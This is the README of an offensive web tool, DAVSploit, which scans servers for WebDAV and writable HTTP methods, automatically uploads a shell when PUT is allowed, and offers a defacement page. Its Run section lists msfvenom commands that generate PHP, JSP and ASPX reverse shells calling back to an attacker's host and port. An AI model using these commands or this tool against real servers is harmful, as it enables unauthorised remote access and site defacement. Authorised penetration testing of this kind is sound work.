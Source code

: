 # DAVSploit
DAV Vulnerbility

╔╦╗╔═╗╦  ╦╔═╗┌─┐┬  ┌─┐┬┌┬┐
 ║║╠═╣╚╗╔╝╚═╗├─┘│  │ ││ │ 
═╩╝╩ ╩ ╚╝ ╚═╝┴  ┴─┘└─┘┴ ┴ 



<center><img src="https://github.com/darkseid-security/DAVSploit/blob/main/IMG/davsploit.png"></center>


DAVSploit tool is for automating checking for PUT,MOVE,COPY and DELETE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY and DELETE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories


Run
===============
Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php<br>
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp<br>
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx<br>

python3 DAVSploit.py
